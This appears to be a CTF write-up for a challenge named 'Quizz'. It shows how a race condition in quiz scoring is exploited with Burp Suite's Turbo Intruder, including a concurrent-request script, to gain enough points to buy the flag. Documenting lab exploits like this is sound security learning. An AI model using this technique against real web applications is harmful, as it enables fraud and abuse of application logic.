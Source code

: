 # Quizz

This challenge was based on race condition. You are required to answer 3 questions which will give you 10 point each. You have to buy a flag whose value is 100 point.

![image](https://user-images.githubusercontent.com/19681324/158107862-cf51445b-b6c6-4872-849a-8f1eebbca6ee.png)

So we can use turbo intruder here to exploit this race condition. 

Each challenge will give you 10 points

![image](https://user-images.githubusercontent.com/19681324/158210423-283d2c58-dfb4-481e-a83b-bfcdebdf7fb5.png)

If you submit the answer and then try to exploit it with turbo intruder it won't work. Either submit the answer and intercept it with burp then exploit using turbo intruder
or start a fresh session and just replace the cookies

I used the below script for turbo intruder, can be easily found on portswigger github repo

```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=50,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    for i in range(50):
        engine.queue(target.req,  target.baseInput, gate='race1')

    engine.openGate('race1')

    engine.complete(timeout=5)


def handleResponse(req, interesting):
    # currently available attributes are req.status, req.wordcount, req.length and req.response
    #if req.status != 404:
    table.add(req)
```
    

Don't forget to add a %s otherwise attack will not succeede. We just need it for execution of the attack
![image](https://user-images.githubusercontent.com/19681324/158211789-ecfec676-d867-4932-8e5b-de9bed94c978.png)

After successful attack we now have 530 point 
![image](https://user-images.githubusercontent.com/19681324/158211962-b38c48d5-520b-4a01-8091-e781ffef93ad.png)

we can easily buy the flag now

![image](https://user-images.githubusercontent.com/19681324/158212039-3d096017-def9-4f17-86c9-dcb49461e75b.png)

**This Link https://ctftime.org/writeup/32471 contains python script using threads for exploiting race condition **
